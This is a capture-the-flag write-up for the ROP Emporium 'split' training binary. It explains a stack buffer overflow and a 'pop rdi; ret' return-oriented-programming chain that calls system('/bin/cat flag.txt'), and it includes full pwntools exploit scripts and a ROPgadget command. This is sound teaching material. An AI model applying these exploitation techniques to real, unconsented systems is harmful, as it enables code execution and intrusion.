







# ROP Emporium | split

## Chaining Concepts

This challenge uses a lot of concepts from ret2win, like overwriting ret address to call other functions. This is similar, except we aren't given a direct `/bin/cat flag.txt` function.

---

## What Does Executing `split` Do?

We begin with what the execution of `./split` looks like:



- On 39 'A's, works.
- On 40 'A's, illegal hardware instruction.
- On 41 'A's, seg fault. And that's what we're interested in, because that means the stack's ret address was overwritten and couldn't find an address to send the instruction pointer to.

---

## The Vulnerable Function

Now we see that in the `pwnme()` function, buffer is allotted 32 bytes but read 96 bytes. This means we have 64 bytes to play around with.



In Cutter there's a function that Cutter found called `UsefulFunction()`:



Now in its decompiled form, we see that it moves the string `"/bin/ls"` into the `edi` register and calls `system()` at address `0x0040074b`. `system()` is a function that reads from the `rdi` register (`edi` being the lower 32 bits of `rdi`, which is 64 bits).



So, let's jump to the start of `UsefulFunction()` using a return address overwrite:

```python
from pwn import *
p = process('./split')
junk = b'A' * 40 # to fill the buffer and rbp
usefulfunc = p64(0x00400743)

payload = junk + usefulfunc

p.recvuntil('>') # to wait until it asks for input
p.sendline(payload)
p.interactive()
```

And it successfully executes `/bin/ls` as expected:



---

## Understanding the Strings

Where is the string `"/bin/ls"` coming from?

It's stored in the binary, and we can see all stored strings in the Strings section of Cutter. Just below we see another string `"/bin/cat flag.txt"` and its address is `0x00601060`, and that's the one we want to execute through calling `system()`.



---

## Planning the Exploit

Since in `UsefulFunc` we move the address of `'/bin/ls'` to `edi`, we first need to load the address of our desired string (`"/bin/cat flag.txt"`) into the `rdi` register, which is how `system()` receives its argument.

We use something called **gadgets** for this — combinations of small assembly instructions ending with a `ret`. The `ret` ending makes it so that we can overwrite that `ret` and jump to another function easily.

We need to find a `pop rdi` instruction to clear the `rdi` and insert the string `"/bin/cat flag.txt"` into `rdi`. Then we can use a `ret` after it to jump to the call to `system()` part of `UsefulFunc` which will execute our command.

---

## Finding the Gadget

For finding gadgets, ROPgadget works better than Cutter’s search. So we use:

```bash
ROPgadget --binary split --depth 12 | grep 'pop rdi'
```

This returns:

```
0x00000000004007c3 : pop rdi ; ret
```

A perfect `pop rdi` followed directly by a `ret`.

---

## Final Payload

```python
from pwn import *
p = process('./split')

junk = b'A' * 40
system_addr = p64(0x0040074b)
bin_flag = p64(0x00601060)
pop_rdi_ret = p64(0x00000000004007c3)

payload = junk + pop_rdi_ret + bin_flag + system_addr
p.recvuntil('>')
p.sendline(payload)

p.interactive()
```


This is a bit confusing to take in all at once, so let's slowly walk through it.

---

## Understanding the Stack Layout

Before payload injection:

```
+---------------------------+
| old return address        | ← [rbp + 8]
+---------------------------+
| saved rbp                 | ← [rbp]
+---------------------------+
| buffer[40]                | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

After payload injection:

```
+---------------------------+
| addr of calls system()    | ← [rbp + 24]
+---------------------------+
| '/bin/cat flag.txt'       | ← [rbp + 16]
+---------------------------+
|  pop rdi ; ret            | ← [rbp + 8] - Our Gadget
+---------------------------+
| saved rbp 'A'             | ← [rbp]
+---------------------------+
| buffer[40] - 'A's         | ← [rbp - 40] to [rbp - 1]
+---------------------------+
```

---

## Execution Walkthrough

The way executions happen is by sending an instruction to the RIP (Instruction Pointer). When the RSP (stack pointer) points to a certain instruction on the stack, `rip = [rsp]` — here the contents of rsp are sent to rip — and the instruction is executed then rsp moves up by 8 bytes to the next value on the stack.

`ret` also performs this by popping `[rsp]` to `rip` and moving the `rsp` up to the next value on the stack.

### Before Execution

- `rsp = [rbp]` (address of `pop rdi ; ret`)
- `rip = ret of pwnme()`
- `rdi = whatever` 


### Step 1: `ret` Moves Control to the Gadget

The original `ret` at the end of `pwnme()` pops the next value off the stack, which is the address of `pop rdi ; ret` and sends it to rip.

- `rip = 0x4007c3` (address of `pop rdi ; ret`)
- `rsp += 8` → now points to: `0x601060` (`"/bin/cat flag.txt"`)

---

### Step 2: `pop rdi` Executes

- Pops `0x601060` off the stack → `rdi = 0x601060`
- `rsp += 8` → now points to: `0x40074b`
- `rip` moves to the next instruction: `ret`

---

### Step 3: `ret` Executes

- Pops `0x40074b` off the stack → `rip = system()`
- `rsp += 8`

---

### Step 4: `system()` Executes

Now the program is executing `system()`. Since we just moved the string `"/bin/cat flag.txt"` into `rdi`, and `system()` uses `rdi` as its first argument (per calling convention), this works perfectly.

- `system(rdi)` → `system("/bin/cat flag.txt")`
- The flag is printed to stdout

---
---

---